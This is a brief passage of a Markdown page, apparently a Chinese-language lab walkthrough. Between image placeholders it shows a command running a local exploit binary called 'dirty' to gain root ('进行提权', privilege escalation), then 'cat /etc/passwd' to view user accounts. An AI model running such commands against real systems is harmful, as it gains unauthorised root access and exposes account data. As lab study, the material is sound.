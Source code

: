 ```shell
```
![Alt text](image-31.png)   
进行提权。   
```shell
 ./dirty root
```   
![Alt text](image-32.png)   
查看用户信息。   
```shell
 cat /etc/passwd
```